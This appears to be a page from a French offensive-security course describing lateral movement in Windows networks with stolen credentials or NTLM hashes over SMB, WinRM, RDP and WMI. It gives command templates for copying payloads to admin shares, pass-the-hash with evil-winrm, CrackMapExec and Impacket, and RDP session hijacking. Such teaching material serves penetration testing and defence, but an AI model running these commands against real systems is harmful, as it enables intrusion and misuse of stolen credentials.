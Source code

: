 # VI.C. Exploitation de Services Réseau (SMB, WinRM, RDP, WMI)

Une fois que des credentials valides (en clair, hash NTLM, ou ticket Kerberos) ont été obtenus pour un compte ayant des droits sur des machines distantes, plusieurs services réseau standards peuvent être utilisés pour le mouvement latéral.

## 1. SMB (Server Message Block) / CIFS (Common Internet File System)

*   **Protocole :** Partage de fichiers, d'imprimantes, et accès aux IPC (Inter-Process Communication) nommés comme `srvsvc` (utilisé par PsExec).
*   **Ports :** TCP 445, TCP 139 (NetBIOS).
*   **Mouvement Latéral via SMB :**
    *   **Accès aux Partages Administratifs (`C$`, `ADMIN$`, `IPC$`) :**
        Permet de lire/écrire des fichiers sur le système de fichiers distant (si l'utilisateur a les droits admin locaux). Utile pour uploader des outils/payloads et exfiltrer des données.
        ```bash
        # Windows
        net use Z: \\<IP_CIBLE_OU_NOM>\C$ /user:<DOMAINE>\<UTILISATEUR> <MOT_DE_PASSE>
        copy payload.exe Z:\Windows\Temp\
        # Avec Pass-the-Hash (via Mimikatz pth)
        # Dans le cmd lancé par pth:
        dir \\<IP_CIBLE_OU_NOM>\C$

        # Linux (smbclient)
        smbclient \\\\<IP_CIBLE_OU_NOM>\\C$ -U <DOMAINE>/<UTILISATEUR>%<MOT_DE_PASSE>
        # smbclient ... -c "put payload.exe \Windows\Temp\payload.exe"
        ```
    *   **Exécution de Commandes via des Services (ex: PsExec, smbexec) :**
        Ces outils utilisent SMB pour uploader un binaire de service, créer et démarrer un service temporaire sur la machine cible, qui exécute ensuite la commande souhaitée. Nécessite des droits d'admin local.
        (Voir [VI.D Outils d'Administration à Distance](./D-outils-administration-distante.md))

## 2. WinRM (Windows Remote Management) / PowerShell Remoting

*   **Protocole :** Basé sur HTTP/HTTPS (WS-Management), permet l'exécution de commandes PowerShell à distance.
*   **Ports :** TCP 5985 (HTTP), TCP 5986 (HTTPS).
*   **Prérequis :** WinRM doit être activé et configuré sur la machine cible. L'utilisateur doit être membre du groupe "Administrateurs" local ou "Remote Management Users".
*   **Mouvement Latéral via WinRM :**
    *   **Commandes PowerShell (Windows) :**
        ```powershell
        # Entrer dans une session interactive
        Enter-PSSession -ComputerName <IP_CIBLE_OU_NOM> -Credential (Get-Credential)
        # Exécuter une commande unique
        Invoke-Command -ComputerName <IP_CIBLE_OU_NOM> -ScriptBlock { Get-Process } -Credential (Get-Credential)
        # Avec Pass-the-Hash (nécessite des configurations spécifiques ou des outils comme Invoke-CommandAs)
        ```
    *   **evil-winrm (Ruby Gem - Linux/Windows) :**
        Outil populaire pour interagir avec WinRM, supporte les hashes NTLM.
        ```bash
        evil-winrm -i <IP_CIBLE> -u <UTILISATEUR> -p <MOT_DE_PASSE>
        evil-winrm -i <IP_CIBLE> -u <UTILISATEUR> -H <HASH_NTLM>
        ```
    *   **CrackMapExec (module `winrm`) :**
        ```bash
        crackmapexec winrm <IP_CIBLE_OU_PLAGE> -u <UTILISATEUR> -p <MOT_DE_PASSE> -x "whoami"
        crackmapexec winrm <IP_CIBLE_OU_PLAGE> -u <UTILISATEUR> -H <HASH_NTLM> -x "ipconfig"
        ```

## 3. RDP (Remote Desktop Protocol)

*   **Protocole :** Accès graphique à distance.
*   **Port :** TCP 3389.
*   **Prérequis :** RDP doit être activé sur la cible. L'utilisateur doit être membre du groupe "Remote Desktop Users" (ou "Administrateurs").
*   **Mouvement Latéral via RDP :**
    *   Connexion directe avec des credentials valides.
        ```bash
        # Windows
        mstsc /v:<IP_CIBLE_OU_NOM>
        # Linux (xfreerdp)
        xfreerdp /v:<IP_CIBLE_OU_NOM> /u:<UTILISATEUR> /p:<MOT_DE_PASSE> /d:<DOMAINE>
        ```
    *   **Pass-the-Hash avec RDP (Restricted Admin Mode) :**
        Si le mode "Restricted Admin" (`/restrictedadmin`) est utilisé côté client et activé côté serveur, la connexion RDP s'effectue sans envoyer les credentials en clair, en utilisant l'authentification réseau actuelle (qui peut provenir d'un PtH ou PtT).
        ```
        # Dans un cmd lancé via Mimikatz pth:
        mstsc /v:<IP_CIBLE_OU_NOM> /restrictedadmin
        ```
    *   **Vol de sessions RDP existantes / RDP Hijacking :**
        Si l'attaquant a des privilèges SYSTEM sur une machine où des sessions RDP sont actives, il peut potentiellement détourner ces sessions.
        Outils : `tscon` (natif), Mimikatz (`ts::sessions`, `ts::remote`).

## 4. WMI (Windows Management Instrumentation)

*   **Protocole :** Infrastructure pour la gestion des données et des opérations sur les systèmes Windows. Peut être utilisé à distance.
*   **Ports :** Utilise RPC, initialement via le port TCP 135 (RPC Endpoint Mapper), puis des ports dynamiques RPC (1024-65535, ou 49152-65535 sur les systèmes plus récents). Le pare-feu doit autoriser le trafic WMI.
*   **Prérequis :** L'utilisateur doit avoir des droits d'admin local sur la cible.
*   **Mouvement Latéral via WMI :**
    *   **Commandes WMI (Windows - `wmic`) :**
        ```powershell
        # Exécuter un processus à distance
        wmic /node:<IP_CIBLE_OU_NOM> /user:<DOMAINE>\<UTILISATEUR> /password:<MOT_DE_PASSE> process call create "cmd.exe /c whoami > C:\Windows\Temp\out.txt"
        ```
    *   **PowerShell Remoting via WMI :**
        ```powershell
        Invoke-WmiMethod -ComputerName <IP_CIBLE_OU_NOM> -Namespace root\cimv2 -Class Win32_Process -Name Create -ArgumentList "notepad.exe" -Credential (Get-Credential)
        ```
    *   **Impacket (wmiexec.py - Linux) :**
        Fournit un shell semi-interactif.
        ```bash
        wmiexec.py <DOMAINE>/<UTILISATEUR>:<MOT_DE_PASSE>@<IP_CIBLE>
        wmiexec.py <DOMAINE>/<UTILISATEUR>@<IP_CIBLE> -hashes aad3b435b51404eeaad3b435b51404ee:<HASH_NTLM>
        ```
    *   **CrackMapExec (module `wmi`) :**
        ```bash
        crackmapexec wmi <IP_CIBLE_OU_PLAGE> -u <UTILISATEUR> -p <MOT_DE_PASSE> -x "hostname"
        ```

## Considérations
*   **Pare-feu :** Les pare-feu (Windows ou réseau) peuvent bloquer ces ports/protocoles.
*   **Détection :** Les connexions et exécutions de commandes à distance sont souvent journalisées (journaux de sécurité Windows, Sysmon, journaux WinRM). Une activité anormale peut être détectée.
*   **Privilèges :** La plupart de ces techniques nécessitent des privilèges d'administrateur local sur la machine cible.

Choisir la bonne technique dépend des services disponibles, des credentials obtenus, et du niveau de furtivité souhaité. 